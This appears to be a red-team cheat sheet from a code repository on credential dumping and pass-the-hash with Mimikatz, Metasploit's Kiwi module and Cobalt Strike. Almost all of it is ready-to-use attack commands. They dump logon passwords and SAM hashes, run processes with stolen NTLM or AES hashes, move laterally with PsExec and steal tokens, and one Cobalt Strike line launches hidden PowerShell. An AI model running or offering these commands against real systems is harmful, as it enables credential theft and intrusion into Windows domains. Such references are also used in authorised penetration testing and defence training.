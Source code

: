 # Mimikatz

## 01 - Manual

### 1.1 - Dump the hashes

```
mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

mimikatz # lsadump::sam
```

### 1.2 - Over Pass the Hash

```
mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /ntlm:<NTLM_hash> /run:<commands>

mimikatz # sekurlsa::pth /user:<username> /domain:<domain_name> /aes256:<aes256_hash> /ntlm:<NTLM_hash> /aes128:<aes128_hash> /run:<commands>

C:\> PsExec64.exe -accepteula \\<IP> cmd.exe
```

## 02 - Metasploit

### 2.1 - Kiwi

```
meterpreter > load kiwi

meterpreter > kiwi_cmd <mimikatz_commands>
```

## 03 - Havoc

TODO: Demonstrate pass the hash in Havoc

## 04 - Cobalt Strike

```
beacon> pth <username> aad3b435b51404eeaa3b435b51404ee:<NT> <commands>

beacon> pth Administrator aad3b435b51404eeaa3b435b51404ee:<NT> powershell -w hidden

beacon> steal_token <powershell_process_id>
```

---
## References

- [Lateral Movement Windows and Active Directory](https://riccardoancarani.github.io/2019-10-04-lateral-movement-megaprimer/)